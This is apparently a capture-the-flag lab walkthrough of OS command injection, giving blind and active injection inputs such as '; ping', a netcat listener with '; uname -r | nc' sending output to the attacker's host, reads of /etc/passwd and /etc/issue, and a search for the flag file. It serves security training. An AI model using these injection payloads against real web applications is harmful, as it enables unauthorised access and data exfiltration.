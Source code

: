 ```yaml
---
description: Walkthrough of OS Command Injection
---
```


# Injection

## :syringe: Blind Command Injection

### #1 Ping the box with 10 packets.

```bash
; ping -c 10 10.9.101.193
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-01-05.png>)

### #2 Redirect the box's Linux Kernel Version to a file on the web server.

```bash
nc -nvlp 4444
; uname -r | nc -nv 10.9.101.193 4444
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-05-45.png>)

### #3 Enter "root" into the input and review the alert.

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-13-49.png>)

### #4 Enter "www-data" into the input and review the alert.

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-13-59.png>)

### #5 **Enter your name into the input and review the alert.**

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-14-09.png>)

## :syringe: Active Command Injection

### #1 **What strange text file is in the website root directory?**

```
ls
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-33-36.png>)

### #2 **How many non-root/non-service/non-daemon users are there?**

```
cat /etc/passwd | egrep '/bin/bash|/bin/sh' 
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-49-06.png>)

### #3 **What user is this app running as?**

```
id
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-32-55.png>)

### #4 **What is the user's shell set as?**

```
cat /etc/passwd | grep www-data
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-34-17.png>)

### #5 **What version of Ubuntu is running?**

```
cat /etc/issue
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-39-03.png>)

### #6 **Print out the MOTD.  What favorite beverage is shown?**

```
find /etc -type f -name 00-header -exec cat {} \;
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 22-04-51.png>)

## :pirate\_flag: Get The Flag!

### #1 **Get the flag!**

```
find / -type f -iname *flag* 2>/dev/null
cat /etc/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-51-50.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-25 21-52-00.png>)

## Support Material

{% embed url="https://linuxize.com/post/how-to-check-your-ubuntu-version/" %}

{% embed url="https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server" %}

